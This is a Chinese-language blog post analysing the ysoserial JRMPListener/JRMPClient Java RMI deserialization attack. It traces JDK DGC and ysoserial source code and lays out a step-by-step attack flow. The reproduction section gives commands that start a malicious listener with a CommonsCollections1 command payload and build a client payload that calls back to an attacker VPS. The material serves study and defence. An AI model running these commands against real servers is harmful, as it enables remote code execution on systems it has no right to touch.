[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225013-36300c10-378d-1.png)  
观察客户端为什么需要在输出流中写入一些数字，然后再将payload写入输出流后序列化发送给服务端  
这就需要查看服务端的代码，它对输入流是如何处理的？  
在RMI中了解到，客户端发送的序列化数据，服务端最终会流向\*\*Impl\_Skel，这里利用的是DGC，所以查看DGCImpl\_Skel的dispatch函数

```plain
public void dispatch(Remote var1, RemoteCall var2, int var3, long var4) throws Exception {
    if (var4 != -669196253586618813L) {
        throw new SkeletonMismatchException("interface hash mismatch");
    } else {
        DGCImpl var6 = (DGCImpl)var1;
            ObjID[] var7;
            long var8;
            switch (var3) {
                case 0:
                    VMID var39;
                    boolean var40;
                    try {
                        ObjectInput var14 = var2.getInputStream();
                        var7 = (ObjID[])var14.readObject();
                        var8 = var14.readLong();
                        var39 = (VMID)var14.readObject();
                        var40 = var14.readBoolean();
                    } catch (IOException var36) {
                        //...
                    } finally {
                        var2.releaseInputStream();
                    }

                    var6.clean(var7, var8, var39, var40);

                    try {
                        var2.getResultStream(true);
                        break;
                    } catch (IOException var35) {
                        throw new MarshalException("error marshalling return", var35);
                    }
                case 1:
                    Lease var10;
                    try {
                        ObjectInput var13 = var2.getInputStream();
                        var7 = (ObjID[])var13.readObject();
                        var8 = var13.readLong();
                        var10 = (Lease)var13.readObject();
                    } catch (IOException var32) {
                        //...
                    } finally {
                        var2.releaseInputStream();
                    }

                    Lease var11 = var6.dirty(var7, var8, var10);

                    try {
                        ObjectOutput var12 = var2.getResultStream(true);
                        var12.writeObject(var11);
                        break;
                    } catch (IOException var31) {
                        throw new MarshalException("error marshalling return", var31);
                    }
                default:
                    throw new UnmarshalException("invalid method number");
            }
    }
}
```

这个数字和JRMPClient写入的一样，所以需要找到服务端最先处理通信传递过来的数据的地方，进入UnicastServerRef的dispatch函数

```plain
public void dispatch(Remote var1, RemoteCall var2) throws IOException {
    try {
        long var4;
        ObjectInput var40;
        try {
            var40 = var2.getInputStream();
            // 先读取一个int，需要大于等于0
            int var3 = var40.readInt();
            if (var3 >= 0) {
                if (this.skel != null) {
                    // 进入这里
                    this.oldDispatch(var1, var2, var3);
                    return;
                }

                throw new UnmarshalException("skeleton class not found but required for client version");
            }

            var4 = var40.readLong();
        } catch (Exception var36) {
            throw new UnmarshalException("error unmarshalling call header", var36);
        }
    }
    //...
}
```

进入oldDispatch函数

```plain
public void oldDispatch(Remote var1, RemoteCall var2, int var3) throws IOException {
    try {
        ObjectInput var18;
        long var4;
        try {
            var18 = var2.getInputStream();

            try {
                Class var17 = Class.forName("sun.rmi.transport.DGCImpl_Skel");
                if (var17.isAssignableFrom(this.skel.getClass())) {
                    ((MarshalInputStream)var18).useCodebaseOnly();
                }
            } catch (ClassNotFoundException var13) {
            }
            // 读取一个long
            var4 = var18.readLong();
        } catch (Exception var14) {
            throw new UnmarshalException("error unmarshalling call header", var14);
        }

        this.logCall(var1, this.skel.getOperations()[var3]);
        this.unmarshalCustomCallData(var18);
        // 然后在这里
        this.skel.dispatch(var1, var2, var3, var4);
    }
    //...

}
```

大致逻辑是先读取var3，再读取var4，var3需要大于等于0，同时在DGCImpl\_Skel的dispatch中，根据var3的值选择执行dirty还是clean，这里选择1，然后var4是-669196253586618813L

### 参考

[https://www.cnblogs.com/nice0e3/p/14333695.html](https://www.cnblogs.com/nice0e3/p/14333695.html)  
[https://xz.aliyun.com/t/2651](https://xz.aliyun.com/t/2651)

## 第二部分

### 复现

在ysoserial项目中，exploit.JRMPListener作为恶意服务器端，等待目标连接，然后向其发送命令执行payload1  
payloads.JRMPClient作用则是构造向JRMPListener发起远程对象请求的payload2，发送至目标漏洞服务器（这里的测试环境JRMPClient充当两个角色）  
**实验环境**：  
JDK8u66  
**测试**：  
exploit.JRMPListener端设置：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225105-54f9c44c-378d-1.png)  
payloads.JRMPClient端设置：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225125-60ed0c0a-378d-1.png)  
运行后即可弹出计算器，导致命令执行（这里的命令执行是在JRMPClient端触发的）  
在实际中，命令触发一般在存在漏洞的目标服务器中，因此可以使用如下命令

```plain
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections1 'touch /tmp/cve-2017-3248'
java -jar ysoserial.jar JRMPClient 'vpsIP:PORT' > vulrServer
```

### 攻击流程

1.  攻击者使用vps启用ysoserial.exploit.JRMPListener，设置需要需要执行的命令、端口和利用的模块，生成payload1
2.  攻击者本地使用payloads.JRMPClient生成payload2，设置vps的ip与端口，生成payload2
3.  攻击者将payload2发送至存在漏洞的目标服务器，目标服务器进行反序列化
4.  目标服务器反序列化过程中会与exploit.JRMPListener进行通信（vps）
5.  vps会将payload1发送至目标漏洞服务器
6.  漏洞服务器会根据 exploit/JRMPListener 设计的通信处理流程，进一步反序列化 payload1
7.  在对payload1反序列化的过程中，会触发RCE

### exploit.JRMPListener

首先从其main函数开始分析，第一步是构造payload

```plain
final Object payloadObject = Utils.makePayloadObject(args[ 1 ], args[ 2 ]);
```

进入该函数，关键两句代码是

```plain
final ObjectPayload payload = payloadClass.newInstance();
payloadObject = payload.getObject(payloadArg);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225217-80246d52-378d-1.png)  
第二部，启动监听  
构建了一个JRMPListener对象，查看其构造函数

```plain
public JRMPListener (int port, String className, URL classpathUrl) throws IOException {
    this.port = port;
    this.payloadObject = makeDummyObject(className);
    this.classpathUrl = classpathUrl;
    this.ss = ServerSocketFactory.getDefault().createServerSocket(this.port);
}
```

其中参数ss是一个ServerSocket对象

> ServerSocket对象用于创建服务器端套接字，以侦听客户端的连接请求并接受连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225247-92279164-378d-1.png)  
查看JRMPListener的run函数

```plain
public void run () {
    try {
        Socket s = null;
        try {
            // 循环等待客户端连接
            while ( !this.exit && ( s = this.ss.accept() ) != null ) {
                try {
                    s.setSoTimeout(5000);
                    // 获取客户端的远程地址
                    InetSocketAddress remote = (InetSocketAddress) s.getRemoteSocketAddress();
                    System.err.println("Have connection from " + remote);
                    // 获取与客户端连接的输入流
                    InputStream is = s.getInputStream();
                    // 根据标志位，选择使用原始输入流还是BufferedInputStream
                    InputStream bufIn = is.markSupported() ? is : new BufferedInputStream(is);

                    // Read magic (or HTTP wrapper)
                    bufIn.mark(4);
                    // 用于从输入流中读取数据
                    DataInputStream in = new DataInputStream(bufIn);
                    int magic = in.readInt();

                    short version = in.readShort();
                    // 检查魔数和版本号是否匹配预期值，如果不匹配则关闭连接并继续下一次循环
                    if ( magic != TransportConstants.Magic || version != TransportConstants.Version ) {
                        s.close();
                        continue;
                    }
                    // 获取与客户端连接的输出流
                    OutputStream sockOut = s.getOutputStream();
                    BufferedOutputStream bufOut = new BufferedOutputStream(sockOut);
                    DataOutputStream out = new DataOutputStream(bufOut);
                    // 从输入流中读取一个字节，表示协议类型
                    byte protocol = in.readByte();
                    switch ( protocol ) {
                    // 流协议
                    case TransportConstants.StreamProtocol:
                        // 向输出流写入一个字节作为协议确认
                        out.writeByte(TransportConstants.ProtocolAck);
                        // 向输出流写入客户端主机名
                        if ( remote.getHostName() != null ) {
                            out.writeUTF(remote.getHostName());
                        } else {
                            out.writeUTF(remote.getAddress().toString());
                        }
                        // 向输出流写入客户端的端口
                        out.writeInt(remote.getPort());
                        out.flush();
                        in.readUTF();
                        in.readInt();
                    // 单操作协议
                    case TransportConstants.SingleOpProtocol:
                        // 调用此方法处理客户端请求，这里传入了payload
                        // 进入的是这里
                        doMessage(s, in, out, this.payloadObject);
                        break;
                    default:
                    // 多路复用协议
                    case TransportConstants.MultiplexProtocol:
                        System.err.println("Unsupported protocol");
                        s.close();
                        continue;
                    }

                    bufOut.flush();
                    out.flush();
                }
                catch ( InterruptedException e ) {
                    return;
                }
                catch ( Exception e ) {
                    e.printStackTrace(System.err);
                }
                finally {
                    System.err.println("Closing connection");
                    s.close();
                }

            }

        }
        finally {
            if ( s != null ) {
                s.close();
            }
            if ( this.ss != null ) {
                this.ss.close();
            }
        }

    }
    catch ( SocketException e ) {
        return;
    }
    catch ( Exception e ) {
        e.printStackTrace(System.err);
    }
}
```

进入doMessage方法

```plain
private void doMessage ( Socket s, DataInputStream in, DataOutputStream out, Object payload ) throws Exception {
    System.err.println("Reading message...");
    // 读取一个int，根据这个标志进行操作
    int op = in.read();

    switch ( op ) {
    case TransportConstants.Call:
        // service incoming RMI call
        // 进入的是这里
        doCall(in, out, payload);
        break;

    case TransportConstants.Ping:
        // send ack for ping
        out.writeByte(TransportConstants.PingAck);
        break;

    case TransportConstants.DGCAck:
        UID u = UID.read(in);
        break;

    default:
        throw new IOException("unknown transport op " + op);
    }

    s.close();
}
```

进入doCall方法

```plain
private void doCall ( DataInputStream in, DataOutputStream out, Object payload ) throws Exception {
    // 用于从输入流 in 中读取对象，重写了resolveClass方法
    ObjectInputStream ois = new ObjectInputStream(in) {

        @Override
        protected Class<?> resolveClass ( ObjectStreamClass desc ) throws IOException, ClassNotFoundException {
            if ( "[Ljava.rmi.server.ObjID;".equals(desc.getName())) {
                return ObjID[].class;
            } else if ("java.rmi.server.ObjID".equals(desc.getName())) {
                return ObjID.class;
            } else if ( "java.rmi.server.UID".equals(desc.getName())) {
                return UID.class;
            }
            throw new IOException("Not allowed to read object");
        }
    };
    // 使用 ois 从输入流中读取一个 ObjID 对象
    ObjID read;
    try {
        read = ObjID.read(ois);
    }
    catch ( java.io.IOException e ) {
        throw new MarshalException("unable to read objID", e);
    }


    if ( read.hashCode() == 2 ) {
        ois.readInt(); // method
        ois.readLong(); // hash
        System.err.println("Is DGC call for " + Arrays.toString((ObjID[])ois.readObject()));
    }

    System.err.println("Sending return with payload for obj " + read);
    //向输出流 out 写入一个字节，表示传输操作为返回操作
    out.writeByte(TransportConstants.Return);// transport op
    // 用于将对象写入输出流 out 中
    ObjectOutputStream oos = new JRMPClient.MarshalOutputStream(out, this.classpathUrl);
    // 向 oos 写入一个字节，表示传输操作为异常返回
    oos.writeByte(TransportConstants.ExceptionalReturn);
    // 创建一个新的 UID 对象，并将其写入 oos
    new UID().write(oos);

    BadAttributeValueExpException ex = new BadAttributeValueExpException(null);
    // 关键在于这里，将payload写入到ex对象的val属性，并写入输出流
    Reflections.setFieldValue(ex, "val", payload);
    oos.writeObject(ex);

    oos.flush();
    out.flush();

    this.hadConnection = true;
    synchronized ( this.waitLock ) {
        this.waitLock.notifyAll();
    }
}
```

最后JRMPClient端收到响应的数据

### payloads.JRMPClient

```plain
PayloadRunner.run(JRMPClient.class, args);
```

进入run方法  
**第一步：生成payload**

```plain
byte[] serialized = new ExecCheckingSecurityManager().callWrapped(new Callable<byte[]>(){
    public byte[] call() throws Exception {
        final String command = args.length > 0 && args[0] != null ? args[0] : getDefaultTestCmd();

        System.out.println("generating payload object(s) for command: '" + command + "'");

        ObjectPayload<?> payload = clazz.newInstance();
        final Object objBefore = payload.getObject(command);

        System.out.println("serializing payload");
        byte[] ser = Serializer.serialize(objBefore);
        Utils.releasePayload(payload, objBefore);
        return ser;
}});
```

这里的clazz是JRMPClient，也就是调用该类的getObject方法获取payload

```plain
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    // 标识远程对象
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    // 远程对象通信终点
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    // 用于处理代理对象的方法调用
    RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    // 创建代理对象
    Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
        Registry.class
    }, obj);
    return proxy;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225321-a66baf98-378d-1.png)  
最后将返回的代理对象进行反序列化  
**第二步：将序列化的payload进行反序列化**  
这一步是测试所用，正常是将payload发送至某个受害主机，让其进行反序列化从而导致命令执行  
根据payload的构造，反序列化的第一步应该从RemoteObjectInvocationHandler类的readObject方法开始，在该类中没找到readObject方法，进而查看父类RemoteObject的readObject方法

```plain
private void readObject(java.io.ObjectInputStream in)
    throws java.io.IOException, java.lang.ClassNotFoundException
{
    String refClassName = in.readUTF();
    if (refClassName == null || refClassName.length() == 0) {
        /*
            * No reference class name specified, so construct
            * remote reference from its serialized form.
            */
        ref = (RemoteRef) in.readObject();
    } else {
        /*
            * Built-in reference class specified, so delegate to
            * internal reference class to initialize its fields from
            * its external form.
            */
        String internalRefClassName =
            RemoteRef.packagePrefix + "." + refClassName;
        Class<?> refClass = Class.forName(internalRefClassName);
        try {
            ref = (RemoteRef) refClass.newInstance();

            /*
                * If this step fails, assume we found an internal
                * class that is not meant to be a serializable ref
                * type.
                */
        } catch (InstantiationException e) {
            throw new ClassNotFoundException(internalRefClassName, e);
        } catch (IllegalAccessException e) {
            throw new ClassNotFoundException(internalRefClassName, e);
        } catch (ClassCastException e) {
            throw new ClassNotFoundException(internalRefClassName, e);
        }
        // 进这里
        ref.readExternal(in);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225343-b33814f0-378d-1.png)  
ref是UnicastRef对象，调用其readExternal函数

> 当一个类实现了 Externalizable 接口时，它必须实现 readExternal(ObjectInput in) 方法来定义对象的反序列化过程。该方法在对象从输入流进行反序列化时被自动调用，其作用相当于readObject

```plain
public void readExternal(ObjectInput var1) throws IOException, ClassNotFoundException {
    this.ref = LiveRef.read(var1, false);
}
```

调用了LiveRef静态方法

```plain
public static LiveRef read(ObjectInput var0, boolean var1) throws IOException, ClassNotFoundException {
    TCPEndpoint var2;
    // 从输入流中读取 TCPEndpoint 对象
    if (var1) {
        var2 = TCPEndpoint.read(var0);
    } else {
        var2 = TCPEndpoint.readHostPortFormat(var0);
    }

    ObjID var3 = ObjID.read(var0);
    boolean var4 = var0.readBoolean();
    LiveRef var5 = new LiveRef(var3, var2, false);
    if (var0 instanceof ConnectionInputStream) {
        ConnectionInputStream var6 = (ConnectionInputStream)var0;
        var6.saveRef(var5);
        if (var4) {
            var6.setAckNeeded();
        }
    } else {
        // 将var5注册到DGCClient中
        // 进入这里
        DGCClient.registerRefs(var2, Arrays.asList(var5));
    }

    return var5;
}
```

该代码片段的作用是从输入流中读取数据以恢复 LiveRef 对象的状态。它根据不同的条件选择读取不同的数据格式，并在适当的情况下进行注册和标记处理。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225407-c185e096-378d-1.png)  
进入DGCClient类的registerRefs

```plain
static void registerRefs(Endpoint var0, List<LiveRef> var1) {
    EndpointEntry var2;
    do {
        var2 = DGCClient.EndpointEntry.lookup(var0);
    } while(!var2.registerRefs(var1));

}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225430-cf923dec-378d-1.png)  
继续调用DGCClient类的registerRefs，传入一个参数的方法，重点关注语句

```plain
this.makeDirtyCall(var2, var3);
```

传入的var2是一个HashSet，里面存放的是经过此函数前面代码处理的远程连接对象，var3是下一个用于标识远程对象引用的序列号  
在makeDirtyCall方法中重点关注

```plain
Lease var7 = this.dgc.dirty(var4, var2, new Lease(DGCClient.vmid, DGCClient.leaseValue));
```

在上面提到了dgc是DGCImpl\_Stub类，查看该类的dirty方法

```plain
public Lease dirty(ObjID[] var1, long var2, Lease var4) throws RemoteException {
    try {
        // 创建一个新的 RemoteCall 对象，用于发起远程调用
        RemoteCall var5 = super.ref.newCall(this, operations, 1, -669196253586618813L);

        try {
            // 获取输出流并将参数对象写入
            ObjectOutput var6 = var5.getOutputStream();
            var6.writeObject(var1);
            var6.writeLong(var2);
            var6.writeObject(var4);
        } catch (IOException var20) {
            throw new MarshalException("error marshalling arguments", var20);
        }
        // 发起远程调用
        super.ref.invoke(var5);

        Lease var24;
        try {
            ObjectInput var9 = var5.getInputStream();
            var24 = (Lease)var9.readObject();
        } catch (IOException var17) {
            ...
        }finally {
            // 完成远程调用
            super.ref.done(var5);
        }
    }catch (RuntimeException var21) {
        ...
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230810225457-df870688-378d-1.png)  
这个过程rmi反序列化时RMI client中RegistryImpl\_Stub 的实际操作一致  
首先这里的ref是UnicastRef，调用newCall是与目标服务器进建立通信  
然后使用invoke处理来自JRMPListener的响应，可以处理来自server端的报错情况，正好通过前面的分析可知，JRMPListener最后将payload包装在异常对象中序列化后写入输出流，JRMPClient对输入流进行反序列化，从而导致payload执行  
函数调用栈

```plain
newCall:340, UnicastRef (sun.rmi.server)
dirty:-1, DGCImpl_Stub (sun.rmi.transport)
makeDirtyCall:378, DGCClient$EndpointEntry (sun.rmi.transport)
registerRefs:320, DGCClient$EndpointEntry (sun.rmi.transport)
registerRefs:156, DGCClient (sun.rmi.transport)
read:312, LiveRef (sun.rmi.transport)
readExternal:493, UnicastRef (sun.rmi.server)
readObject:455, RemoteObject (java.rmi.server)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
defaultReadFields:2000, ObjectInputStream (java.io)
readSerialData:1924, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
deserialize:27, Deserializer (ysoserial)
deserialize:22, Deserializer (ysoserial)
run:38, PayloadRunner (ysoserial.payloads.util)
main:82, JRMPClient (ysoserial.payloads)
```

### 参考

[https://xz.aliyun.com/t/2650](https://xz.aliyun.com/t/2650)

## 总结

这篇文章写的有点乱，建议学之前先了解RMI的详细流程及底层代码  
这里主要分为两种攻击模式，都是基于在rmi底层存在的反序列化的点

*   对服务端的攻击：payloads.JRMPListener+exploit.JRMPClient
*   对客户端的攻击：exploit.JRMPListener+payloads.JRMPClient
